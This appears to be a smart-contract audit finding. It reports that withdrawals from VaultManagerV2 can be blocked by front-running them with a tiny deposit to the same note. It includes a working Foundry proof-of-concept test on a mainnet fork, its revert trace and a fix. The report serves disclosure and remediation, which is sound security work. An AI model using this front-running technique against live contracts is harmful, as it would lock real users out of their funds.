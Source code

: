 # Withdrawals can be DoS'd

## Impact
Malicious users can front-run and deny any withdrawal by just paying gas for a deposit.

## Severity
Likelihood: High - No preconditions.
Impact: Medium - Users can't withdraw while attack is active.
Severity: Medium

## Description
In VaultManagerV2.deposit#L125 we verify that the target note exists, but we don't restrict deposits to the vault owner nor require that the vault has been added to the note. The vault could even be a fabricated one to reduce costs for the attacker.

Any withdrawal can be front-run by a bogus deposit, which will update `idToBlockOfLastDeposit` for the note and make any withdrawals or redemptions revert for the block.

## Proof of Concept

Insert the following test into `test/fork/v2.t.sol`, and run it on a mainnet fork:

```
  function testFrontrunWithdrawals_Debug() public {
    // We license the vault manager to be able to mint DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(contracts.vaultLicenser).add(address(contracts.vaultManager));

    DNft dNft = DNft(MAINNET_DNFT);
    
    // Add the vault manager to the OLD licenser to allow minting DYAD
    vm.prank(MAINNET_OWNER);
    Licenser(0xd8bA5e720Ddc7ccD24528b9BA3784708528d0B85).add(address(contracts.vaultManager));

    // We reset the DNft contract to be able to mint free DNfts
    vm.etch(address(MAINNET_DNFT), address(new DNft()).code);
    dNft = DNft(MAINNET_DNFT);

    uint id = dNft.mintNft(address(this));

    // Obtain weth
    vm.prank(MAINNET_WETH); // deal not working for me
    ERC20(MAINNET_WETH).transfer(address(this), 1 ether);

    // Add the weth vault and deposit 1 eth    
    contracts.vaultManager.add(id, address(contracts.ethVault));
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1 ether);
    contracts.vaultManager.deposit(id, address(contracts.ethVault), 1 ether);

    // Move to the next block to pass the flash loan protection
    vm.roll(block.number + 1);

    // Now we want to withdraw, but we are stopped from doing so
    address badguy = address(0xBAD);
    vm.prank(MAINNET_WETH);
    ERC20(MAINNET_WETH).transfer(badguy, 1);

    vm.startPrank(badguy);
    ERC20(MAINNET_WETH).approve(address(contracts.vaultManager), 1);
    contracts.vaultManager.deposit(id, address(contracts.ethVault), 1);
    vm.stopPrank();

    // We can't withdraw
    contracts.vaultManager.withdraw(id, address(contracts.ethVault), 1 ether, address(this));
  }
```

```
    ├─ [1731] VaultManagerV2::withdraw(882, 0xBb2180ebd78ce97360503434eD37fcf4a1Df61c3, 1000000000000000000 [1e18], PoCs: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496])
    │   ├─ [557] 0xDc400bBe0B8B79C07A962EA99a642F5819e3b712::ownerOf(882) [staticcall]
    │   │   └─ ← [Return] PoCs: [0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496]
    │   └─ ← [Revert] DepositedInSameBlock()
    └─ ← [Revert] DepositedInSameBlock()

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 6.04s (2.72s CPU time)

Ran 1 test suite in 7.98s (6.04s CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/fork/v2.t.sol:PoCs
[FAIL: DepositedInSameBlock()] testFrontrunWithdrawals_Debug() (gas: 2678413)
```

## Recommendation
Restrict deposits to the vault owner and require that the vault has been added to the note.
